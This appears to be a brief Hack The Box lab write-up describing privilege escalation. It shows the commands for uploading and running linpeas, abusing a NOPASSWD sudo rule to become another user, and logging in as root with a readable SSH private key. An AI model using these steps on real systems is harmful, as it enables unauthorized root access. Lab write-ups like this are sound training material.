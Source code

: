 #HackTheBox 
# 1.Reconnaissance
Connection ssh -p 30751 user1@134.122.103.40
use2 existe
	
# 2.Enumération
. send linpeas.sh script for first ssh connexion
	commande : 
	"scp -P 30751 /home/kali/Desktop/HTB_PrivEsc/linpeas.sh   user1@134.122.103.40:/home/user1/"
. add  all autorizations on linpeas.sh file for u-g-o
. execute linpeas.sh
## 2.1 Find
Sudo version 1.8.31  
	Potentially Vulnerable to CVE-2022-0847                                                                                                                      
	Potentially Vulnerable to CVE-2022-2588
	
User user1 may run the following commands on gettingstartedprivesc-707492-857d9545d5-94pt4:
    (user2 : user2) NOPASSWD: /bin/bash

# 3.Exploit
## 3.1 PrivEsc
execute commande : user1$ sudo -u user2 /bin/bash
User2 privilege and /user2/flag.txt get 
Execute commande : user2$ ./linpeas.sh
##             Find
	root's ssh private key is read by user2

SSH connexion on target with id_rsa's root : done
	"ssh -p 30751 root@134.122.103.40 -i id_rsa"

ROOT privilege and /root/flag.txt get 

